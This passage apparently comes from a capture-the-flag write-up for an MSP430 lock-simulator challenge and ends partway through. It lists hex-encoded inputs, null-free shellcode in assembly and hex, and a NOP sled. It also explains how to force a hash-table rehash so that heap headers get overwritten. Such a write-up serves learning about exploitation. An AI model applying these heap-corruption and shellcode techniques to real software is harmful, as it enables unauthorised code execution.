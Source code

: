 6e6577200120303b
6e6577200920303b
6e6577201120303b
6e6577201920303b
6e6577202120303b
6e6577203c505c51b50420303b
6e657720303e9e4cb50120303b
6e6577200820303b6e657720
```

So what is our shellcode?  We did one earlier that was null-free:

```
mov #0x7f01,r15
dec r15
swpb r15
push r15
call <INT>
```

```3f40017f1f838f100f12b012ec4c```

Our nop can be `inc r1`, or `1153`


```
6e6577201020303b
6e6577203020303b
6e6577204020303b
6e6577205020303b
6e6577206020303b

6e6577200f20303b
6e6577201f20303b
6e6577202f20303b
6e6577203f20303b
6e6577204f20303b

6e6577203c505c51b50420303b
6e657720303e9e4cb50120303b

6e6577201020303b
6e657720
1153115311531153115311531153115311531153115311531153115311531153
3f40017f1f838f100f12b012ec4c
```

The problem now is that we get a rehash just before our last input.
Bummer.  So we have to trigger this rehash in advance by adding two
more dummy entries, and then overwrite heap headers for the rehashed
heap:

```
6e6577201020303b
6e6577203020303b
6e6577204020303b
6e6577205020303b
6e6577206020303b
